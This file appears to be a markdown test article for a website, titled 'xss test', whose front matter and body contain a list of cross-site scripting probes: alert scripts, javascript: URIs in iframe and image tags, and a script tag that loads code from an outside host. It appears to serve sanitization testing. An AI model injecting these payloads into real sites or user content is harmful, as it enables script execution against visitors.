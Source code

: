 ```yaml
---
title: xss test
date: 2019-07-18T08:23:44.456Z
description: <script>alert("hello")</script>
directory: Bad Articles
priority: 1
tags:
  - <script>alert("hello")</script>
---
```

<script>alert("hello")</script>

"><iframe src=javascript:alert(1)>

<IMG SRC="javascript:alert('XSS');">

<IMG SRC=javascript:alert(&quot;XSS&quot;)>

";alert('XSS');//

<SCRIPT SRC="http://xss.rocks/xss.jpg"></SCRIPT>

<script>alert('xss');</script>
